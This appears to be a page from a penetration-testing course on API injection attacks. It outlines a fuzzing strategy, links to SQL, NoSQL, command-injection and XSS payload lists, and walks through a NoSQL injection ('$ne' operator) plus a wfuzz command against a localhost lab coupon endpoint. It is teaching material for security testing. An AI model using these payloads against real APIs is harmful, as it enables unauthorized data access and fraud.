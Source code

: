 ```yaml
---
title: Injection attacks
author: amandaguglieri
draft: false
TableOfContents: true
---
```


# Injection Attacks

??? abstract "General index of the course"
    - [Setting up the environment](setting-up-kali.md)
    - [Api Reconnaissance](api-authentication-attacks.md).
    - [Endpoint Analysis](endpoint-analysis.md).
    - [Scanning APIS](scanning-apis.md).
    - [API Authorization Attacks](api-authentication-attacks.md).
    - [Exploiting API Authorization](exploiting-api-authorization.md).
    - [Testing for Improper Assets Management](improper-assets-management.md).
    - [Mass Assignment](mass-assignment.md).
    - [Server side Request Forgery](server-side-request-forgery-ssrf.md).
    - [Injection Attacks](injection-attacks.md). 
    - [Evasion and Combining techniques](evasion-combining-techniques.md).
    - [Setting up the labs + Writeups](other-labs.md)

The art of fuzzing is knowing which payload to send in the right request with the right tool.

- Right payload can be narrow with reconnaissance.
- Right requests are those that include user input (+ headers + url paths)
- Right tool depends on strategy in fuzzing.

Yes, when fuzzing we need **a strategy**.

**1**. Identify endpoints (those where client input can interact with a database).

**2**. Fuzzing and analyzing responses.

**3**. Analyze responses:

	- Verbose error message
	- Response code
	- Time in response.

**4**. Identify technolofy, version, services behind, security controls.



## SQL injections

[More aboyut SQL injectios](../sql-injection.md). | [How to perform a manual attack in SQL](../sqli-manual-attack.md) |  [Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/SQL-injection.md) |  [Tools: SQLmap](../sqlmap.md)


## NOSQL injections

[Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/nosql-injection.md). 

API commonly use NOSQL databases due to the fact that they scale well.  These databases have unique structures, modes of querying... Requests will be alike but payloads may vary. 


## Operating System Command Injection

[Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/operating-system-command-injection.md)

Some common operatiing system commands that are used in Injection attacks: 

- ipconfig
- dir
- ver
- whoami
- ifconfig
- ls
- pwd
- whoami

Target:

- URL query string
- Requests parameters
- headers
- requests that throw verbose error messages 

Techniques:

- Pairing multiple commands in a single line.


## XSS  Cross-Site Scripting

[More about Cross-Site Scripting](../cross-site-scripting-xss.md) | [Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/cross-site-scripting-xss.md) 



## Using wfuff

Having this request:

```
POST /community/api/v2/coupon/validate-coupon HTTP/1.1
host: localhost:8888
accept: */*
origin: http://localhost:8888
referer: http://localhost:8888/shop
Connection: close
user-agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
content-type: application/json
Content-Length: 29
sec-fetch-dest: empty
sec-fetch-mode: cors
sec-fetch-site: same-origin
Accept-Encoding: gzip, deflate
accept-language: en-US,en;q=0.5
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJoYXBpaGFja2VyNTU1NUBoYXBpaGFjaGVyLmNvbSIsImlhdCI6MTY3NTY5NjY3NiwiZXhwIjoxNjc1NzgzMDc2fQ.2_B9Rh_kERjiz4J4c4kIRjktNJ3s4jXOPRCJrLlOJrXV5cC-SgYDF3BxcBDzDJTqZTNtS26-fnprUr9bdenAeg
Cache-Control: no-cache
Postman-Token: 5eb2f69b-6f89-460b-a49f-96c12edc9906

{"coupon_code":{"$ne":"-1"} }
```


And this response:

```
HTTP/1.1 200 OK
Server: openresty/1.17.8.2
Date: Mon, 06 Feb 2023 16:05:31 GMT
Content-Type: application/json
Connection: close
Access-Control-Allow-Headers: Accept, Content-Type, Content-Length, Accept-Encoding, X-CSRF-Token, Authorization
Access-Control-Allow-Methods: POST, GET, OPTIONS, PUT, DELETE
Access-Control-Allow-Origin: *
Content-Length: 79

{"coupon_code":"TRAC075","amount":"75","CreatedAt":"2022-11-11T19:22:26.134Z"}
```

We can use wfuzz like this:

```bash
wfuzz -z file,/usr/share/wordlists/nosql.txt -H "Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJoYXBpaGFja2VyNTU1NUBoYXBpaGFjaGVyLmNvbSIsImlhdCI6MTY3NTY5NjY3NiwiZXhwIjoxNjc1NzgzMDc2fQ.2_B9Rh_kERjiz4J4c4kIRjktNJ3s4jXOPRCJrLlOJrXV5cC-SgYDF3BxcBDzDJTqZTNtS26-fnprUr9bdenAeg" -H "Content-Type: application/json" -d "{\"coupon_code\":FUZZ}" --sc 200 -p localhost:8080 http://localhost:8888/community/api/v2/coupon/validate-coupon
# -p localhost:8080 Redirect traffic to BurpSuite
# --sc 200 Show code response 200
```

